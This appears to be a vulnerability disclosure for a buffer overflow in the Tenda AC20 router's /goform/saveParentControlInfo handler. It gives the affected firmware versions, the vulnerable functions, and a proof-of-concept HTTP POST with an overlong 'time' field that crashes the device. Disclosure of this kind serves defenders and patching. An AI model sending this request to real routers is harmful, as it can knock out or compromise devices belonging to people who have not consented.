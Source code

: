 # Information



**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC20

**Affected firmware version:** <= V16.03.08.12 (latest)

**Firmware download address:** [tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

# Overview

A buffer overflow vulnerability was discovered on the latest version of the Tengda AC20 router, V16.03.08.12, where an attacker sent a well-constructed http post packet to the request path /goform/saveParentControlInfo, triggering a denial of service attack or even RCE, specifically via the function strcpy(s + 2, var); triggered, the reason is because there is no boundary check on var

# Vulnerability details

The prerequisite is that the function is called saveParentControlInfo

![](goformsave-ParentControlInfo.assets/1.png)

Here the two fields are valued deviceId, deviceName, and then the function compare_parentcontrol_time is called, and the time is valued in the function compare_parentcontrol_time, but because of sscanf(s, "%[^-]-%s", v3, v4); Not checking results in a buffer overflow vulnerability

![](goformsave-ParentControlInfo.assets/2.png)

# POC

```
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.102.145
Content-Length: 95
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.102.145
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

deviceName=123&time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-b
```

![](goformsave-ParentControlInfo.assets/3.png)



![](goformsave-ParentControlInfo.assets/4.png)
